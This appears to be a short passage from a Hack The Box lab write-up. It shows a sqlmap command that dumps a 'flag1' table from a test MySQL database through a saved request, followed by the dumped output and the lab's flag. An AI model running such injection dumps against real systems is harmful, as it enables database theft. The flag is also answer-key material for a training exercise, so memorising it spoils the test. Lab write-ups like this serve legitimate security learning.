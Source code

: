 Let's save case 1 and do the following command:

```
python3 sqlmap.py -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch
```

We'll get the following output:

```
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+
```

Flag is `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`
